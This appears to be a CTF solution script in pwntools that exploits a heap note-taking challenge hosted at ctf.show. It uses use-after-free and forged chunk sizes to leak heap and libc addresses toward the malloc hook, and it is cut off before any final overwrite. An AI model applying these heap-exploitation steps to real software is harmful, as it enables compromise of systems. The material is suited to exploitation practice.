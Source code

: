 ```python
ip_port=['pwn.challenge.ctf.show',28079]

debug=lambda : gdb.attach(p) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])



def add_note(title):
    p.sendline('1')
    p.recvuntil('Title:')
    p.sendline(str(title))

def add(title,size,text):
    p.sendline('2')
    p.recvuntil('Title of note to write content:')
    p.sendline(str(title))
    p.recvuntil('Size of content')
    p.sendline(str(size))
    p.recvuntil('Content:')
    p.sendline(text)

def show(title):
    p.sendline('3')
    p.recvuntil('Title of note to show content:')
    p.sendline(str(title))

def free(title):
    p.sendline('4')
    p.recvuntil('Choice: Title of note to delete:')
    p.sendline(str(title))

for i in range(0x20):
    add_note(str(i))
add(2,0x48,'11111')
add(1,0x48,'11111')
free(2)
free(1)
#free(2)
add_note(1)
free(1)
add_note(1)
show(1)

addr=u64(p.recvline()[1:-1].ljust(8,'\x00'))
log.info(hex(addr))


add(3,0x48,p64(addr-0x20)+p64(addr-0x20))
add(4,0x48,'11111')
add(5,0x48,p64(0)*3+p64(0x461))

for i in range(14):
    add(i+6,0x48,'/bin/sh\x00')
free(4)
add_note(4)
show(4)

molloc_hook_addr=u64(p.recvline()[1:-1].ljust(8,'\x00'))-96-0x10
log.info(hex(molloc_hook_addr))
```
